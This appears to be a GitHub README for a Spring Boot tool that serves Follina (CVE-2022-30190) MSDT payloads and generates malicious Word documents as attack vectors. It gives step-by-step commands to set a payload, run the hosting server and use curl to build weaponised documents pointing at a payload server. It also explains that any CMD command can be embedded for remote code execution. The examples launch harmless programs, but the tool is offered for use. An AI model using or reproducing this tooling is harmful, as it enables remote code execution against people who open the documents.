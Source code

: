 # Follina MS-MSDT exploitation with Spring Boot

This repository contains a simple **Spring Boot** application that acts both as a server to **host/activate Follina payloads**, and as a **generator for malicious Word documents** that are ready to be used as attack vectors to exploit [CVE-2022-30190](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-30190).

This vulnerability consists of **Remote Code Execution** through MSDT *(Microsoft Windows Support Diagnostic Tool)*.

## Server-Side Payload

In order to serve a unique payload of your choice, you should:

- define the **payload**, eg.:
```
export FOLLINA_PAYLOAD="notepad.exe"
```
- run the **server** to host the static payload:
```
mvn spring-boot:run
```
- generate the "Follina" **Word document**:
```
curl -s http://localhost:8080/generateDoc?address=http://192.168.64.128:8080 -o follina.doc
```

**If you'd like to change the current payload, you'd have to tear down the currently active server first**, and repeat the steps after defining the newer payload.

**NOTE:** the payload can be replaced with whatever other command, as long as it can be run via the Windows CMD.


## Client-Side Payload

In order to serve a client-side payload of your choice, you should:

- run the **server** to activate the payloads at runtime:
```
mvn spring-boot:run
```
- generate the "Follina" **Word document** specifying the `cmd` query parameter, eg.:
```
curl -sG http://localhost:8080/generateDoc --data-urlencode 'address=http://192.168.64.128:8080' --data-urlencode 'cmd=start msedge.exe https://www.youtube.com/watch?v=zqTwOoElxBA' -o follina.doc
```

**The payload in this case is embedded within the document**, and will simply need *activation* by contacting the server. In this way, you can have multiple different payloads spread over different documents and you won't have to reboot the server to trigger payload changes - as you can simply generate a new document with the desired payload embedded.

### Kudos
Many thanks to [John Hammond](https://github.com/JohnHammond/msdt-follina) for coming out with the Python implementation, and sharing his analysis of the CVE.
